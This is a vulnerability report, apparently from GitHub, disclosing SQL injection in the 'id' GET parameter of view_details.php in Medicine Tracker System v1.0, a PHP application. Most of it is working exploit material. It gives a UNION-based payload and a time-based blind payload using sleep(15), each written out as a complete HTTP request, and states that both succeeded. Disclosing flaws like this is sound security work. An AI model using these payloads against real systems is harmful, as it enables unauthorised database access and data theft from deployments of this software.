 # Medicine Tracker System v1.0 has SQL injection

BUG_Author:godgua

Website source address:https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html

Vulnerability File: /php-mts/app/medicines/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null-- -

```
GET /php-mts/app/medicines/view_details.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null--%20- HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

union query success

![image](https://github.com/GodGua/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(15)))a) AND 'c'='c

```
GET /php-mts/app/medicines/view_details.php?id=1%27%20and%20(select%202%20from%20(select(sleep(15)))a)%20AND%20%27c%27=%27c HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

The server's response time is 15 seconds

![image](https://github.com/GodGua/bug_report/blob/main/sql1.png)
